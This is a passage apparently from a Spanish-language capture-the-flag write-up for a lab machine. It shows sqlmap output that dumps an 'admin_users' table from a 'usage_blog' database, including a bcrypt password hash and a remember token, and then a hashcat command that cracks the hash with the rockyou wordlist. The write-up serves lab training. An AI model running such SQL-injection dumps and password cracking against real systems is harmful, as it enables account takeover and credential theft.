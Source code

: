 ```bash
[20:51:47] [INFO] fetching columns for table 'admin_users' in database 'usage_blog'
[20:51:47] [INFO] resumed: 8
[20:51:47] [INFO] resumed: id
[20:51:47] [INFO] resumed: username
[20:51:47] [INFO] resumed: password
[20:51:47] [INFO] resumed: name
[20:51:47] [INFO] resumed: avatar
[20:51:47] [INFO] resumed: remember_token
[20:51:47] [INFO] resumed: created_at
[20:51:47] [INFO] resumed: updated_at
[20:51:47] [INFO] fetching entries for table 'admin_users' in database 'usage_blog'
[20:51:47] [INFO] fetching number of entries for table 'admin_users' in database 'usage_blog'
[20:51:47] [INFO] resumed: 1
[20:51:47] [INFO] resumed: Administrator
[20:51:47] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[20:51:47] [INFO] retrieved: 
[20:51:49] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[20:51:49] [INFO] resumed: 2023-08-13 02:48:26
[20:51:49] [INFO] resumed: 1
[20:51:49] [INFO] resumed: $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
[20:51:49] [INFO] resumed: kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT
[20:51:49] [INFO] resumed: 2023-08-23 06:02:19
[20:51:49] [INFO] resumed: admin
Database: usage_blog
Table: admin_users
[1 entry]
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| id | name          | avatar  | password                                                     | username | created_at          | updated_at          | remember_token                                               |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
| 1  | Administrator | <blank> | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2 | admin    | 2023-08-13 02:48:26 | 2023-08-23 06:02:19 | kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT |
+----+---------------+---------+--------------------------------------------------------------+----------+---------------------+---------------------+--------------------------------------------------------------+
... [snip]
```

Luego de un rato, como vemos obtendremos un hash y usuario. El hash se crackea en poco:

```bash
❯ hashcat -m 3200 hash /usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt      
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 6.0  Linux, Release, RELOC, LLVM 17.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i5-6300U CPU @ 2.40GHz, 2861/5787 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 72

... [snip]

```